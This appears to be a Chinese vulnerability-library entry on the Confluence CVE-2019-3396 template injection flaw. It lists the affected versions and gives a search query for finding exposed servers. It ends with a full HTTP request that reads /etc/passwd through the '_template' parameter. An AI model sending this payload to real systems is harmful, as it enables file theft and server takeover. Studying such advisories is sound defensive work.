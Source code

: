# Atlassian Confluence preview SSTI模版注入漏洞 CVE-2019-3396

## 漏洞描述

Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。 利用该漏洞可以读取服务器上任意文件，进而可以包含恶意文件来执行代码。可能造成敏感信息泄露，服务器被控制等严重后果。

## 漏洞影响

<a-checkbox checked>Atlassian Atlassian Confluence < 6.6.12</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence 6.7.0-6.12.2</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence < 6.13.3</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence < 6.14.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-Confluence"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630488806824-a8205673-933b-434b-8050-abcde3ef3e97.png)

发送请求包

```php
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3670.0 Safari/537.36
Content-Type: application/json; charset=utf-8
Content-Length: 168

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```